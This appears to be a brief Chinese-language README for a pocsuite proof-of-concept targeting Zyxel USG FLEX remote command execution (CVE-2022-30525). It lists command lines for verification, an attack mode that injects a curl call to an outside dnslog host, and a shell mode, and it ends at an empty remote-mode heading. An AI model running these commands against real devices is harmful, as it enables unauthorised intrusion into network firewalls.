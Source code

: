 # 0x001 验证模式默认使用DNSLOG

pocsuite -r '.\Zyxel USG FLEX handler RCE CVE-2022-30525.py' -u https://127.0.0.1:8080 
![](image/1.png)

# 0x002 如DNSLOG无法使用可以使用自定义命令

pocsuite -r '.\Zyxel USG FLEX handler RCE CVE-2022-30525.py' -u https://127.0.0.1:8080 --attack --command "curl 11111111111.9lc786.dnslog.cn"
![](image/2.png)

# 0x003 shell模式

## 本地模式
pocsuite -r '.\Zyxel USG FLEX handler RCE CVE-2022-30525.py' -u https://127.0.0.1:8080 --shell
## 远程模式


